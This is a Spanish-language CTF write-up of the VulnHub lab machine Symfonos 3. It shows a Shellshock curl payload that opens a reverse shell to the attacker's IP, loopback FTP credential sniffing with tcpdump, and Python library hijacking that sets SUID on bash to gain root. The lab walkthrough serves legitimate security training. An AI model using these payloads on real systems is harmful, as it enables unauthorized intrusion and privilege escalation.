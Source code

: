 ```yaml
---
layout: single
title: Symfonos 3 - VulnHub
excerpt: "Intermediate real life based machine designed to test your skill at enumeration. If you get stuck remember to try different wordlist, avoid rabbit holes and enumerate everything thoroughly. SHOULD work for both VMware and Virtualbox."
date: 2023-02-12
classes: wide
header:
  teaser: /blog/assets/images/vh-writeup-symfonos3/symfonos3.jpg
  teaser_home_page: true
  icon: /blog/assets/images/vulnhub.webp
categories:
  - vulnhub
tags:
  - Shellshock
  - cgi-bin
  - python
  - cron
  - pspy
  - tcpdump
---
```


Intermediate real life based machine designed to test your skill at enumeration. If you get stuck remember to try different wordlist, avoid rabbit holes and enumerate everything thoroughly. SHOULD work for both VMware and Virtualbox.

# Summary
- IP: 192.168.1.36
- Ports: 21,22,80
- OS: Linux (Debian)
- Services & Applications:
	-  21 -> ProFTPD 1.3.5b
	-  22 -> OpenSSH 7.4p1 Debian 10+deb9u6
	-  80 -> Apache httpd 2.4.25

# Recon

- Escaneo básico de puertos:

```bash
$nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 192.168.1.36 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$nmap -p21,22,80 -sCV 192.168.1.36 -oN targeted
```

- Escaneo de directorios con gobuster:

```bash
$gobuster dir -u http://192.168.1.36 -w /home/dante/SecLists/Discovery/Web-Content/common.txt -t 200
```


# Análisis de página web:

- Algo a notar desde el escaneo de directorios con gobuster, es que tenemos una Rabbit Hole, es decir, llegamos a directorios que no nos llevarán a nada interesante, nada de lo que sacar provecho.

- Si abrimos la web principal, escaneando el código fuente, vemos que nos habla sobre llegar al "underwold", en los directorios encontrados vemos "/gate/cerberus/tartarus/hermes" etc pero esto no nos lleva a nada tal y como mencioné.

- En la web principal encontramos el directorio "cgi-bin", hacemos un escaneo en dicho directorio y encontraremos un directorio "/underworld" accedemos y no vemos nada interesante, sin embargo, podemos usar este directorio para escanear el "cgi-bin" y comprobar que es vulnerable a ShellShock.


# Exploit cgi-bin Shellshock:

- En Hacktricks podemos leer información acerca de esta vulnerabilidad: [CGI - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)

- Usamos el siguiente comando para comprobar si es vulnerable:

```bash
$nmap 192.168.1.36 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/underworld

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|_      http://www.openwall.com/lists/oss-security/2014/09/24/10
MAC Address: 00:0C:29:99:EA:40 (VMware)
```


- Como vemos, sí que es vulnerable, entonces usamos el exploit contemplado en la página de HackTricks en la que se hace uso de "curl" para obtener una reverse shell:

```bash
$curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.1.31/443 0>&1' http://192.168.1.36/cgi-bin/underworld
```

- Ganamos acceso al sistema como el usuario "cerberus", aplicamos el respectivo tratamiento de la tty.


# ESCALANDO PRIVILEGIOS:

- Si comprobamos a que grupos pertecemos con el comando "id" vemos que estamos en el grupo (pcap) lo cual resulta extraño; esto podríamos aprovechar para capturar paquetes y posteriormente analizarlos, lo que haremos ahora será escanear si hay tareas automatizadas que se realizan por detrás en la máquina, ya que estas podría tener información de por medio.

- En nuestra máquina atacante descargamos el binario de  "pspy64" de GitHub [Releases · DominicBreuker/pspy (github.com)](https://github.com/DominicBreuker/pspy/releases) 

- Transferimos dicho binario a la máquina víctima.

- Le damos permisos de ejecución y la ejecutamos:

```bash
cerberus@symfonos3:/tmp$ chmod +x pspy64
cerberus@symfonos3:/tmp$ ./pspy64
```

- Esperamos unos minutos para verificar qué tareas se están realizando de forma automática y por qué usuario se las está ejecutando.

- Luego de unos minutos podemos ver lo siguiente:

```bash
2023/02/12 12:13:01 CMD: UID=0     PID=1270   | /usr/sbin/CRON -f 
2023/02/12 12:13:01 CMD: UID=0     PID=1271   | /bin/sh -c /usr/bin/curl --silent -I 127.0.0.1 > /opt/ftpclient/statuscheck.txt 
2023/02/12 12:14:01 CMD: UID=0     PID=1273   | /usr/sbin/CRON -f 
2023/02/12 12:14:01 CMD: UID=0     PID=1272   | /usr/sbin/cron -f 
2023/02/12 12:14:01 CMD: UID=0     PID=1274   | /usr/sbin/CRON -f 
2023/02/12 12:14:01 CMD: UID=0     PID=1275   | /usr/sbin/CRON -f 
2023/02/12 12:14:01 CMD: UID=0     PID=1277   | /bin/sh -c /usr/bin/curl --silent -I 127.0.0.1 > /opt/ftpclient/statuscheck.txt 
2023/02/12 12:14:01 CMD: UID=0     PID=1276   | /bin/sh -c /usr/bin/python2.7 /opt/ftpclient/ftpclient.py 
2023/02/12 12:14:01 CMD: UID=1000  PID=1278   | proftpd: (accepting connections)               
2023/02/12 12:14:01 CMD: UID=0     PID=1279   | /usr/sbin/CRON -f 
2023/02/12 12:14:01 CMD: UID=105   PID=1280   | /usr/sbin/sendmail -i -FCronDaemon -B8BITMIME -oem root 
2023/02/12 12:14:01 CMD: UID=1000  PID=1281   | /usr/sbin/exim4 -Mc 1pRGrR-0000Kd-SR 
```


- Efectivamente se están ejecutando tareas automatizadas y como usuario root (UID=0), específicamente se están manipulando los archivos "/opt/ftpclient/ftpclient.py" y "/opt/ftpclient/statuscheck.txt"

- Si intentamos acceder a dichos archivos nos damos cuenta que no tenemos permisos.

- Dado que pertenecemos al grupo (pcap) podemos analizar los paquetes que se envían o reciben en la máquina con "tcpdump".

```bash
cerberus@symfonos3:/tmp$ tcpdump -i lo -w captura.cap -v
```

- Esperamos unos minutos, hasta que se hayan capturado algunos paquetes.

- Cuando se hayan capturado una cantidad considerable de paquetes, detenemos el escaneo y transferimos el archivo "captura.cap" a nuestra máquina atacante para analizarlos.

- En nuestra máquina atacante ejecutamos "tshark" para escanear los paquetes en consola, y como vimos que en la máquina víctima se están manipulando ficheros que guardan relación con el protocolo FTP, filtramos por FTP:

```bash
$tshark -r captura.cap -Y ftp 2>/dev/null
```

- Obtenemos el siguiente output:

```bash
24  60.027899    127.0.0.1 → 127.0.0.1    FTP 121 Response: 220 ProFTPD 1.3.5b Server (Debian) [::ffff:127.0.0.1]
26  60.027930    127.0.0.1 → 127.0.0.1    FTP 78 Request: USER hades
28  60.028547    127.0.0.1 → 127.0.0.1    FTP 99 Response: 331 Password required for hades
29  60.028570    127.0.0.1 → 127.0.0.1    FTP 89 Request: PASS PTpZTfU4vxgzvRBE
30  60.035754    127.0.0.1 → 127.0.0.1    FTP 92 Response: 230 User hades logged in
31  60.035802    127.0.0.1 → 127.0.0.1    FTP 81 Request: CWD /srv/ftp/
32  60.035902    127.0.0.1 → 127.0.0.1    FTP 94 Response: 250 CWD command successful
```

- Como vemos, se están ejecutando comandos y en estos se encuentran las credenciales del usuario "hades", pivotamos a dicho usuario en la máquina víctima:

```bash
cerberus@symfonos3:/tmp$ su hades
```


- Ahora, como el usuario "hades" sí que tenemos acceso al directorio que encontramos anteriormente "/opt/ftpclient/" así que entramos y cateamos el archivo "ftpclient.py" que se está ejecutando como root de forma automatizada:

```python
import ftplib

ftp = ftplib.FTP('127.0.0.1')
ftp.login(user='hades', passwd='PTpZTfU4vxgzvRBE')

ftp.cwd('/srv/ftp/')

def upload():
    filename = '/opt/client/statuscheck.txt'
    ftp.storbinary('STOR '+filename, open(filename, 'rb'))
    ftp.quit()

upload()
```


- Vemos que importa la librería "ftplib", esto podríamos aprovecharlo para aplicar Python Library Hijacking, así que lo hacemos:

- Primero, buscamos en donde se encuentra dicha librería:

```bash
hades@symfonos3:/opt/ftpclient$ find / -name ftplib.py 2>/dev/null
```

- La modificamos:

```bash
hades@symfonos3:/opt/ftpclient$ nano /usr/lib/python2.7/ftplib.py
```

```python
import os


os.system("chmod u+s /bin/bash")
```

- Ahora esperamos a que se ejecute el archivo "ftpclient.py" por root y se ejecute el código que hemos modificado:

```bash
hades@symfonos3:/opt/ftpclient$ watch -n 1 ls -l /bin/bash
```

- Cuando vemos que efectivamente se cambió los permisos SUID a la bash, simplemente ejecutamos la bash con privilegios y seremos root:

```bash
Every 1.0s: ls -l /bin/bash                                                                                                                                symfonos3: Sun Feb 12 12:32:19 2023

-rwsr-xr-x 1 root root 975488 Dec 29  2012 /bin/bash

```

```bash
hades@symfonos3:/opt/ftpclient$ bash -p
```

